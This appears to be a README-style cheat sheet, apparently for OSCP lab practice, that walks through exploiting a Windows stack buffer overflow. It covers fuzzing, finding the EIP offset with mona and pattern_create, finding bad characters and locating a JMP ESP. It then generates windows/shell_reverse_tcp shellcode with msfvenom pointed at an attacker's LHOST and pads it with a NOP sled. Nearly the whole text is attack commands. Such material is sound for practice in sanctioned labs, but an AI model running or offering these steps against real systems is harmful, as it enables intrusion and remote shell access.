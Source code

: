 # Quick N Dirty Buffer Overflow

## Commands

Set mona as your working directory, this will make generating the bad character byte array easier
```!mona config -set workingfolder c:\mona\%p
```
  
Modify fuzz.py with the correct IP address and command argument, and run it against the target host
```python3 fuzz.py
```
  
Create a unique byte pattern with metasplot pattern_create script, set the end number to whatever value the program crashed at +400
```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```
  
After successfuly crashing the program, run the mona script to find the exact EIP offset. Set the final digit to whatever value the fuzzer initially crashed the program at +400
```!mona findmsp -distance 600
```
  
Generate a byte array in mona ignoring the known bad characters (this will always start with \x00 until we can determine the other bad characters)
```!mona bytearray -b "\x00"
```
  
Run badchargen.py and pass it 00 as input (this is because \x00 is the only known bad character at this moment in time)
```python3 badchargen.py
>> 00
```
  
After successfuly exploiting the program with the bad character payload, run this mona script with whatever value was held by the ESP register at crash (dont forget to fill the retn variable with 4 bytes like BBBB)
```!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```
  
Once you are 100% sure that you have excluded all of the bad characters, find a JMP point with mona
```!mona jmp -r esp -cpb "\x00"
```
  
Generate shellcode with msfvenom using your local host variables and all bad characters
```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
  
Don't forget to add NOP sled to the exploit in order for the payload to have room in memory to unpack itself
```padding = "\x90" * 16
```
